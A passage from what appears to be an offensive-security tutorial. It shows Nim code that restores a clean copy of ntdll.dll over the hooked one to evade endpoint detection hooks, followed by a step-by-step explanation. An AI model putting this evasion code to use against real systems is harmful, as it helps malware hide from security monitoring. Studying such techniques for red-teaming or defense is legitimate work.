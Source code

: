 ```nim
    let NtHeader: PIMAGE_NT_HEADERS = cast[PIMAGE_NT_HEADERS](cast[DWORD_PTR](cleanNtdll) + DOSHeader.e_lfanew)
    for Section in low ..< NtHeader.FileHeader.NumberOfSections:
        SectionHeader = cast[PIMAGE_SECTION_HEADER](cast[DWORD_PTR](IMAGE_FIRST_SECTION(NtHeader)) + cast[DWORD_PTR](IMAGE_SIZEOF_SECTION_HEADER * Section))
        if cmp(".text", toString(SectionHeader.Name)) == 0:
            echo "Found .text section"
            if VirtualProtect(cast[LPVOID](hNtdll + SectionHeader.VirtualAddress), SectionHeader.Misc.VirtualSize, 0x40, addr oldprotect) == 0: #0x40 = PAGE_EXECUTE_READWRITE
                echo fmt"VirtualProtect Failed! Error Code: ({GetLastError()})."
                return false
            copyMem(cast[LPVOID](hNtdll + SectionHeader.VirtualAddress), cleanNtdll + SectionHeader.VirtualAddress, SectionHeader.Misc.VirtualSize)
            if VirtualProtect(cast[LPVOID](hNtdll + SectionHeader.VirtualAddress), SectionHeader.Misc.VirtualSize, oldprotect, addr oldprotect) == 0:
                echo fmt"VirtualProtect Failed! Error Code: ({GetLastError()})."
                return false
            return true
    return false  

when isMainModule:
    echo "Press any key to continue..."
    discard readLine(stdin)
    let nt = getCleanNTDLL()
    echo "Clean NTDLL Stored At: 0x",  toHex(cast[ByteAddress](nt))
    echo "Press any key to continue..."
    discard readLine(stdin)
    echo "Unhooking!"
    let unhookResult = unhook(nt)
    if unhookResult:
        echo "NTDLL Has Been Refreshed!"
    else:
        echo "Could Not Refresh NTDLL!"
    echo "Press any key to quit..."
    discard readLine(stdin)
```
Let’s go through this Nim code piece by piece. 

First, since `NtCreateProcessEx` is an undocumented function, we cannot simply call it. First, we define its function signature. This is the line starting with type.

Second, we create a convenience function. This is our “toString” function (credits to [the Offensive Nim repo and @byt3bl33d3r](https://github.com/byt3bl33d3r/OffensiveNim/tree/master)). All we do here is convert a byte array to a Nim String type.

Next, we have our "getCleanNTDLL" function. The first thing it does is get a handle to ntdll.dll. Then, using this handle, we find and save the address of the `NtCreateProcessEx` function so we can use it.

Next, we get a handle to an arbitrary process. This will be the process we clone. 

Note that the final parameter to `OpenProcess` is a PID. So, we must make sure to change this to a value that exists on the target system. Otherwise, we can implement a function to do this automatically.
